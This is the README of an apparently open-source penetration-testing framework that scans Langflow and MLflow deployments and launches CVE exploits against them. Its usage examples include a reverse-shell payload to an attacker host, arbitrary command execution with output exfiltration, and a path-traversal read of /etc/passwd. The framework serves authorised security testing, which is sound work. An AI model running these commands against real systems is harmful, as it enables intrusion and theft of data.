

# FlowHound


Automated AI/ML infrastructure exploitation framework for scanning and testing insecure [Langflow](https://github.com/langflow-ai/langflow) and [MLflow](https://github.com/mlflow/mlflow) deployments.

[](https://dl.circleci.com/status-badge/redirect/gh/rmhowe425/FlowHound/tree/main)
[](https://codecov.io/gh/rmhowe425/FlowHound)
[](https://pypi.org/project/flowhound/)
[](https://pypi.org/project/flowhound/)

## Documentation

Full documentation is available at **[flowhound.readthedocs.io](https://flowhound.readthedocs.io/)**.

## Installation

```bash
pip install flowhound
```

## Usage

FlowHound exposes three sub-commands: `attack`, `scan`, and `sniff`.

### `attack` — launch exploits against a target

```
flowhound attack --url <target-url> [OPTIONS]
```

| Option | Required | Description |
|---|---|---|
| `--url` | Yes | URL of the target instance (e.g. `http://localhost:7860`) |
| `--username` | No | Target username — must be paired with `--password` |
| `--password` | No | Target password — must be paired with `--username` |
| `--autopwn` | No | Run all matching exploits instead of stopping at the first success |
| `--proxy` | No | HTTP(s) proxy to route traffic through (e.g. `http://127.0.0.1:8080`) |
| `--command` | No | Shell command to execute on the target via the `execute_bash_command` payload |
| `--reverse_shell` | No | `LHOST:LPORT` for a reverse TCP shell payload (e.g. `192.168.1.10:4444`) |
| `--application` | No | Target application name (e.g. `langflow`, `mlflow`). Skips auto-detection when provided |
| `--cve` | No | Limit exploitation to a specific CVE (e.g. `CVE-2026-9198`) |
| `-h`, `--help` | No | Show help message |

> `--command` and `--reverse_shell` are mutually exclusive. `--username` and `--password` must always be supplied together.

### `scan` — launch auxiliary modules against a target

```
flowhound scan --url <target-url> --cve <cve-id> [OPTIONS]
```

| Option | Required | Description |
|---|---|---|
| `--url` | Yes | URL of the target instance |
| `--cve` | Yes | Target a specific auxiliary CVE (e.g. `CVE-2023-1177`) |
| `--f_path` | No | File path to read for path traversal modules (e.g. `/etc/passwd`) |
| `--username` | No | Target username — must be paired with `--password` |
| `--password` | No | Target password — must be paired with `--username` |
| `--proxy` | No | HTTP(s) proxy to route traffic through |
| `-h`, `--help` | No | Show help message |

### `sniff` — detect version and list applicable modules

```
flowhound sniff --url <target-url> [OPTIONS]
```

| Option | Required | Description |
|---|---|---|
| `--url` | Yes | URL of the target instance |
| `--proxy` | No | HTTP(s) proxy to route traffic through |
| `--application` | No | Target application name (e.g. `langflow`, `mlflow`). Skips auto-detection when provided |
| `-h`, `--help` | No | Show help message |

### Examples

Unauthenticated attack (stops at first successful exploit):
```bash
flowhound attack --url http://target.example.com:7860
```

Authenticated attack (includes auth-required CVEs):
```bash
flowhound attack --url http://target.example.com:7860 --username admin --password secret
```

Run all matching exploits with a custom command payload:
```bash
flowhound attack --url http://target.example.com:7860 --autopwn --command "whoami"
```

Catch a reverse shell:
```bash
flowhound attack --url http://target.example.com:7860 --reverse_shell 192.168.1.10:4444
```

Route all traffic through a proxy:
```bash
flowhound attack --url http://target.example.com:7860 --proxy http://127.0.0.1:8080
```

Skip auto-detection and target Langflow directly:
```bash
flowhound attack --url http://target.example.com:7860 --application langflow
```

Target a specific exploit CVE only:
```bash
flowhound attack --url http://target.example.com:7860 --cve CVE-2026-9198
```

Run an auxiliary module (e.g. MLflow path traversal):
```bash
flowhound scan --url http://target.example.com:5000 --cve CVE-2023-1177 --f_path /etc/passwd
```

Detect the target version and list applicable modules without launching any exploits or auxiliary scans:
```bash
flowhound sniff --url http://target.example.com:7860
```

## Architecture



## How it works

1. **Version detection** — probes the target to identify the running application and version. When `--application` is provided, only that application's detector is called; otherwise all registered detectors are tried in sequence.
2. **CVE lookup** — queries the bundled `vulnerabilities.json` database for CVE records matching the detected application, version range, and authentication state.
3. **Exploit dispatch** — dynamically loads each matching exploit module and executes it. Unauthenticated exploits are prioritised. Each exploit runs with a 20-second timeout; timed-out exploits are skipped automatically.
4. **Payload injection** — when `--command` or `--reverse_shell` is specified, the corresponding payload is injected into each exploit rather than the built-in default.

## CVE coverage

### Langflow (Exploits)

| CVE ID | CVSS | Auth Required | Type | Affected Versions |
|---|---|---|---|---|
| CVE-2026-9198 | 10.0 | No | Exploit | 1.0.0 – 1.10.0 |
| CVE-2026-93674 | 10.0 | Yes | Exploit | 1.5.0 – 1.9.0 |
| CVE-2026-0769 | 9.8 | No | Exploit | 1.3.2 |
| CVE-2026-0768 | 9.8 | No | Exploit | 1.4.2 |
| CVE-2026-19295 | 9.9 | Yes | Exploit | 1.0.0 – 1.11.1 |
| CVE-2026-19286 | 9.8 | Yes | Exploit | 1.11.0 – 1.11.1 |
| CVE-2026-18729 | 8.8 | Yes | Exploit | 1.0.0 – 1.11.1 |
| CVE-2026-5027 | 8.8 | Yes | Exploit | 1.0.0 – 1.8.4 |
| CVE-2026-7873 | 8.8 | Yes | Exploit | 1.0.0 – 1.10.0 |
| CVE-2026-10134 | 8.8 | Yes | Exploit | 1.0.0 – 1.9.3 |

### MLflow (Auxiliary)

| CVE ID | CVSS | Auth Required | Type | Affected Versions |
|---|---|---|---|---|
| CVE-2023-1177 | 9.8 | No | Auxiliary | 1.0.0 – 2.1.1 |
| CVE-2024-27132 | 8.8 | Yes | Auxiliary | 1.0.0 – 2.11.2 |

## Payloads

| Payload | CLI flag | Description |
|---|---|---|
| `execute_bash_command` | `--command "<cmd>"` | Runs an arbitrary shell command and exfiltrates stdout |
| `reverse_tcp_shell` | `--reverse_shell LHOST:LPORT` | Opens a reverse TCP shell back to the attacker (blocking) |

When no payload flag is given each exploit falls back to its built-in default (runs `id` and exfiltrates the result).

## Project structure

```
flowhound/
├── __main__.py                  # CLI entry point; registers attack, scan, and sniff commands
├── cli/
│   ├── command.py               # attack, scan, and sniff Click command definitions
│   ├── validators.py            # URL, proxy, CVE, file path, and application input validators
│   ├── banner.py                # ASCII-art banner
│   └── message_format.py        # Coloured logging handler (ClickLogHandler)
└── vulnerabilities/
    ├── auxiliary/
    │   ├── base_auxiliary_class.py  # Abstract base for auxiliary modules
    │   └── mlflow/                  # MLflow auxiliary modules (CVE-2023-1177, CVE-2024-27132)
    ├── clients/
    │   ├── base.py              # Abstract TargetClient adapter
    │   ├── langflow.py          # LangflowClient — auto-login & bearer-token auth
    │   └── mlflow.py            # MLflowClient — HTTP Basic auth
    ├── cve/cve.py               # CVE data model; dynamically loads exploit & auxiliary modules
    ├── io/
    │   ├── database.py          # Reads vulnerabilities.json; filters by app, version, auth & type
    │   ├── version_detection.py # Per-application version probes; detect_target() dispatcher
    │   └── vulnerabilities.json # Bundled CVE data store
    ├── exploits/
    │   ├── base_exploit_class.py  # Abstract base; _client_class, auto_login, authenticate
    │   └── langflow/              # Langflow exploit PoC modules
    ├── payloads/
    │   ├── base_payload_class.py  # Abstract base; generate_payload / load_payload interface
    │   ├── execute_bash_command.py
    │   └── reverse_tcp_shell.py
    ├── base.py                    # BaseModule providing client management and auth helpers
    └── utils.py                   # Version string/tuple conversion utilities
```

## Requirements

- Python 3.10+
- `requests >= 2.32.3`
- `click >= 8.1.8`

## Running tests

```bash
pip install pytest
pytest flowhound/tests/
```

## Disclaimer

FlowHound is intended for authorised security testing only. Do not run it against systems you do not own or have explicit written permission to test.
